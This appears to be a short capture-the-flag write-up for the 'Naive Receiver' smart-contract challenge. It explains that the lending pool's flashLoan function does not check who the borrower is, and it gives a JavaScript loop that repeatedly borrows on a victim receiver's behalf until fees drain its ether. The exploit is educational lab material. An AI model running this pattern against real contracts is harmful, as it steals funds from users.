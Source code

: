 # Naive Receiver

1. The `NaiveReceiverLenderPool.sol` has `flashLoan` function with 1 ETH free that does'nt check the borrower address so we can borrow for others people behalf. We can drain the user by calling until the user run out of ether.

```javascript
while ((await ethers.provider.getBalance(this.receiver.address)) > 0) {
  await this.pool.flashLoan(
    this.receiver.address,
    ethers.utils.parseEther("0")
  );
}
```

2. To do it in single transaction, we can create a contract which contain the code that do exactly the same.
